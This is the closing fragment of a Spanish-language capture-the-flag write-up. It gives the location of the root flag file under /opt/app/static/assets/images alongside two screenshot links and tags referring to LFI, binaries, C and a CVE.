

La Flag de root esta dentro de la dirección de **/opt/app/static/assets/images** como root.txt




#LFI #Easy #Binarios #C #CVE 